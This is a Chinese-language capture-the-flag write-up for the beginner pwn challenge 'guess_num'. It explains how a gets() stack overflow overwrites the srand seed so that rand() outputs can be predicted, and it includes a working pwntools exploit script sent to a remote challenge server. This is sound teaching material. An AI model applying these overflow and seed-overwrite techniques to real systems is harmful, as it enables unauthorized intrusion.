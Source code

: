 
# [攻防世界]新手区guess_num

运行了一下发现是个猜数的游戏，还是先看文件属性及保护措施  
![checksec检查文件](https://sphandsomejack.github.io/2020/02/02/guess_num/a.png)  
64位文件用64IDA打开，先看字符串窗口，找可利用的字符串

![](https://sphandsomejack.github.io/2020/02/02/guess_num/b.png)  
看main的伪代码，可以看出这个猜数游戏会进行十个回合，如果十个回合都能猜对数的话，就可以调用sub_C3E函数，而这个sub_C3E函数中就有system(“cat flag”)  
![](https://sphandsomejack.github.io/2020/02/02/guess_num/c.png)  
“rand() % 6 + 1”的含义就是获取1~6的伪随机数。  
![](https://sphandsomejack.github.io/2020/02/02/guess_num/d.png)  
由于开启了栈保护，所以没法直接覆盖返回地址来进入sub_C3E，但是输入name时，用了gets，利用gets栈溢出，尝试覆盖掉seed，使种子值已知，这样就能得到rand的值，之后只要循环输入十次就能拿到flag。  
**srand()是用来初始化rand()的C语言函数，而rand()函数用于产生随机数，但并不是真的随机数，只要种子已知，就能得到rand()生成的所有随机数(这个函数产生的随机数和平台有关系，同样的seed，Windows下和Linux下产生的值不同，由于这题文件elf，是基于Linux的，所以脚本在Linux上运行才行)。**

## [](https://sphandsomejack.github.io/2020/02/02/guess_num/#%E6%80%9D%E8%B7%AF%EF%BC%9A "思路：")思路：

1. 输入name时，通过gets溢出，覆盖掉seed的值，使seed已知
2. 写脚本，或者手动输入rand()函数产生的前10个值
3. 到达sub_C3E拿到flag

exp:

```python
from pwn import *  
from ctypes import *  #python的一个外部函数库  
  
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")  #调用DLL中输出的C接口函数  
   
payload = 'a'*32 + p64(1)   
  
p = remote('111.198.29.45',50351)  
libc.srand(1)  
p.sendlineafter('name:',payload)   
for i in range(10):  #输入以1为seed，前十次所产生的伪随机数  
    p.sendlineafter('number:',str(libc.rand()%6 + 1))   
p.interactive()
```

payload解释：

1. ‘a’*32：看栈算v7和seed的距离，这里var_30就是v7  
    ![](https://sphandsomejack.github.io/2020/02/02/guess_num/e.png)  
    地址0x00000030和0x00000010之间距离为32，所以填充32个’a’
2. p64(1)：将seed的值覆盖为1